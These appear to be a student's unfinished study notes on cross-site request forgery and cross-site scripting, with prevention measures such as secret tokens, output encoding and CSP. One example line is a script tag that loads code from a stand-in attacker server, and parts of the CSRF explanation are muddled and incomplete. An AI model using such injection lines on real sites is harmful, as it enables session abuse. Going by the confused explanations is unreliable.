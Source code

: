 <!-- TOC depth:6 withLinks:1 updateOnSave:1 orderedList:0 -->

		- [Cross Site Request Forgery](#cross-site-request-forgery)
			- [Prevention](#prevention)
				- [Add a secret that the attacker cannot guess](#add-a-secret-that-the-attacker-cannot-guess)
				- [Re-authenticate for critical operations](#re-authenticate-for-critical-operations)
				- [Logging off one site before using others](#logging-off-one-site-before-using-others)
		- [What is XSS?](#what-is-xss)
		- [Prevention](#prevention)
			- [Output Filtering/Encoding](#output-filteringencoding)
			- [CSP](#csp)
				- [SOP and XSS](#sop-and-xss)
<!-- /TOC -->

link: http://www-sop.inria.fr/members/Tamara.Rezk/teaching/caspar/web3.tar.gz

### Cross Site Request Forgery

[![](https://i.imgur.com/T5tobo8.png)](https://drive.google.com/file/d/0B84giOOCNV1zby0xQ0c3UzYwNVk/view?usp=sharing) The attacker code include the attacker code from another server, in this case, attacker server.

```
<script src:"http://atackerserver.com/jquery"></script>
```

This is the process CSRF.

1.	Execute attacker code JS
2.	Load from attacker server code
3.	The client execute the code received by AJAX process. This code send the request to Trusted server the service that want to attack. For example, getContactList service. This is possible because have the client cookie and the server think that is the client who do the request.

***Complete with more information about it***

#### Prevention

##### Add a secret that the attacker cannot guess

If we use a token, we prevent this attack. This token is a number generated randomly. So the html have in URL requests the token as GET parameter. And the request from attacker code don't have this token, this random number. Then the browser always send the cookie but the trusted server will know that is a attack because don't have the token. BUT, the attacker code, can analyze the DOM and find the token code. this token can find because is JS imported, but if it is a iframe, this code wouldn't can access the DOM.

##### Re-authenticate for critical operations

##### Logging off one site before using others

XSS
---

code injection is essentially execute code from attacker. this can execute in:
- SQL 
- JavaScript
- Server side

If the code is executed in server, this is know injection and if the code is executed in client is know as XSS.

###What is XSS?

### Prevention

#### Output Filtering/Encoding

-	Remove, encode HTML special charts
-	Allow only safe commands

**NOTE: USE XSS CHEAT SHEET**

#### CSP

the code is not accepted if link is another server that the declared in CSP.

And the code is not accepted if the code is inline, so it's included in HTML.

The injection that include the script in URL and the server print GET variable, is not found, because the server print this code as inline code.

This isn't enough because all the user don't have the last version of browsers.

##### SOP and XSS
